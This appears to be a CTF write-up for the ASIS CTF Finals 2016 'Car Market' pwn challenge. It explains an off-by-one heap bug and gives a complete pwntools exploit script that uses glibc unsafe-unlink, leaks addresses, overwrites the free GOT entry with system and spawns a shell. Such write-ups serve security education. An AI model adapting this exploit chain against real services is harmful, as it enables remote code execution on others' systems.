 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/12/asis-ctf-finals-2016-car-market/
date: "2016-09-12T02:26:51+09:00"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "heap", "unlink-attack", "glibc" ]
---
```


# ASIS CTF Finals 2016: Car Market

Good problem.

## solution

A problem of heap, and the `malloc`/`free` are the ones of latest glibc.
Structures are below. There is a off-by-one, which the `name` of `customer_t` leaks the null byte and rewrites the least byte of `comment` with null.

``` c
car_t **g_cars = malloc(sizeof(car_t *) * 256);  // 0x6020c8
struct car_t {
    char name[16];  // 0x0
    int price;  // 0x10
    customer_t *customer;  // 0x18
}
struct customer_t {
    char firstname[32];  // 0x0
    char name[32];  // 0x20
    char *comment; // 0x40
}
```

There are `g_cars`, list of malloced pointes, so we can bypass the check `q->fd->bk == q` and `q->bk->fd == q` and do unlink attack.
See <https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c>.

However `x->customer` (used as `x->bk`) of a car pointer `x` is not our controll, so I did with $2$ steps.
At first, let `x->customer->comment` be a pointer of another car `y` (because `y` is on the list `g_cars`), `y->price` (`y->fd`) be the `g_cars + k` where `(g_cars + k)->bk == y`, and `*(y->customer + 0x10)` (`y->bk->fd`) be `y`.
Then free the `x` (and `x->customer`).
This causes use after free, so we can make a customer which is listed on the car list.
Secondly, do the similar thing and write the address the car list on the car list itself.
Now we can read/write arbitrary address, and get the flag.


## implementation

``` python
#!/usr/bin/env python2
import time
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='car-market.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=31337, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./car_market')
libc = ELF('./libc.so.6') # ubuntu 16.04
p = remote(args.host, args.port)

def prompt(*xs):
    p.recvuntil('>\n')
    for x in xs:
        if isinstance(x, int):
            x = str(x)
        p.sendline(x)

# 1: list
# 2: add Car
# 3: remove car
# 4: select car
# 5: exit
list_cars = lambda: prompt(1)
add_car = lambda model, price: prompt(2, model, price)
remove_car = lambda index: prompt(3, index)
select_car = lambda index: prompt(4, index)
exit = lambda: prompt(5)

# 1: info
# 2: set model
# 3: set price
# 4: add customer
# 5: exit
info_car = lambda: prompt(1)
set_model = lambda s: prompt(2, s)
set_price = lambda s: prompt(3, s)
add_customer = lambda: prompt(4)
exit_car = lambda: prompt(5)

# 1: set name
# 2: set firstname
# 3: set comment
# 4: exit
set_name = lambda s: prompt(1, s)
set_firstname = lambda s: prompt(2, s)
set_comment = lambda s: prompt(3, s)
exit_customer = lambda: prompt(4)

for i in range(20):
    add_car(('car %d ' % i).ljust(15, 'X'), u32('YYYY'))
    select_car(i)
    if i != 11:
        add_customer()
        set_firstname(('customer %d' % i).ljust(0x20, 'A'))
        set_name('B' * 0x20)
        set_comment('C' * 0x48)
        exit_customer()
    exit_car()

# leak heap address
select_car(0)
add_customer()
set_firstname(('customer %d' % 0).ljust(0x20, 'A'))
set_name('B' * 0x20)
set_comment('C' * 0x48)
exit_customer()
info_car()
p.recvuntil('Name : ')
name = p.recvline(keepends=False)
heap_base = u64(name[0x20 :].ljust(8, '\0')) - 0x8a0
log.info('heap base: %#x', heap_base)
exit_car()
pointer_vector = lambda i: heap_base+0x10+i*8

# make fake chunks on a car
bk = 0x18
select_car(9)
set_price(pointer_vector(9) - bk)
add_customer()
set_firstname('A' * 16 + p64(heap_base + 0xf70))
set_comment(p64(0x80) + p64(0xc0))
exit_customer()
exit_car()

# first unlink
select_car(10)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# make a customer who is listed on the pointer_vector, and make a fake chunk on it
fd = 0x10
bk = 0x18
select_car(11)
add_customer()
set_name('B' * 16 + p64(pointer_vector(9) - bk) + p64(pointer_vector(9) - fd))
exit_customer()
exit_car()

# make an another fake chunk
select_car(12)
add_customer()
set_comment('C' * 48 + p64(0x250) + p64(0x90))
exit_customer()
exit_car()

# second unlink
select_car(13)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# read libc base
select_car(9)
set_model(p64(elf.got['setvbuf']))
exit_car()
select_car(6)
info_car()
p.recvuntil('Model  : ')
libc_base = u64(p.recvuntil(' \n')[: -2 ].ljust(8, '\0')) - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)
exit_car()

# got overwrite
select_car(9)
set_model(p64(elf.got['free']))
exit_car()
select_car(6)
set_model(p64(libc_base + libc.symbols['system']).rstrip('\0'))
exit_car()

# set /bin/sh
select_car(9)
set_model('/bin/sh\0')
exit_car()

# run
remove_car(9)

time.sleep(1)
p.sendline('id')
p.interactive()
```
